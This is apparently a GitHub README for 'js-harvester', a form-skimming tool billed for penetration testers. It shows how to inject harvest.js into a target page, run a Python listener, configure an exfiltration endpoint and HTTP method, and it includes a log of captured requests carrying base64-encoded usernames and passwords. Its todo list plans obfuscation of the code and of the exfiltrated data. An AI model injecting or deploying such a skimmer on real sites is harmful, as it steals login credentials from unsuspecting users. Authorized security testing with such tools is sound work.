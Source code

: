 # js-harvester
This is a tool for pen testers to use in an engagement where data must be captured from a web form.
> [!CAUTION]
> Disclaimer: Intended only for use on systems that you are legally authorized to access.
# installation
* Requires jQuery
* Ability to inject harvest.js to the target site
# usage
1. Identify target page to harvest data from (see example-forms for reference/test materials)
3. Add harvest.js to the target page
```
<script type="text/javascript" src="harvest.js"></script>
```
4. Run a HTTP or HTTPS service to receive data from the script
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
6. Update the settings in harvest.js
```
var dynamicTrackers = true;			//	(boolean, true/false) 
var bindAllFormsSwitch = true;		//	(boolean, true/false)
var formName = "loginform2";
var enableEncoding = true;			//	(boolean, true/false)
var usePost = false;				//	(boolean, true/false)
var trackClients = true;			//	(boolean, true/false)
var allowSubmission = false;		//	(boolean, true/false)
var _0x3745 = ["http","://","127.0.0.1","/harvest.php","Content-type","application/x-www-form-urlencoded","GET","POST","HEAD","PUT","DELETE","OPTIONS","PATCH"];
```

* <b>dynamicTrackers:</b> if false, manually update siteId and formId tracking values to unique values
* <b>bindAllFormsSwitch:</b> boolean value 'true' or 'false'. true will bind all forms on the page, false will bind the form name specified by 'formName'
* <b>formName:</b> required if not binding all forms on the page (see bindAllFormsSwitch)
* <b>enableEncoding:</b> enables base64 encoding of exfiltrated data, may expand to other encoding types/formats
* <b>usePost:</b> boolean value 'true' or 'false'. indicates whether a POST request should be used for data exfiltration, default is to use GET
* <b>trackClients:</b> boolean value 'true' or 'false'. 
* <b>allowSubmission:</b> boolean value 'true' or 'false'. 
* <b>_0x3745:</b> array of values used for data exfiltration, the first 4 need to be customized for the data exfiltration endpoint

5. Listen. . .
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.1.211 - - [14/Sep/2024 18:39:22] "GET /harvest?data=dXNlcm5hbWU6cGV0ZXImcGFzc3dvcmQ6d2VpbmVyJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:27] "GET /harvest?data=dXNlcm5hbWU6YWRtaW4mcGFzc3dvcmQ6YWRtaW4mc2l0ZUlkOk1Ua3lMakUyT0M0eExqSXpOdz09JmZvcm1JZDpMMnB6YUdGeWRtVnpkQzlzYjJkcGJpMW1iM0p0TG1oMGJXd3RiRzluYVc1bWIzSnQ= HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:33] "GET /harvest?data=dXNlcm5hbWU6Z2VvcmdlJnBhc3N3b3JkOmJ1cm5zJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
                                                                                                                                                                                                                                       
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ 
```

# todo list
* ~~dynamic form binding and processing~~
* ~~support for exfiltration through configurable HTTP methods~~
* ~~use hash values to identify site and form IDs~~
* ~~ability to bind multiple forms dynamically~~
* client feedback options
* enhance decoder tools
* change form processing to avoid using name or id properties
* collect client information (IP, user agent, referer, timezone etc.)
* customizable serialization separators
* code obfuscation
* obfuscation for data exfiltration
* remove jQuery dependencies
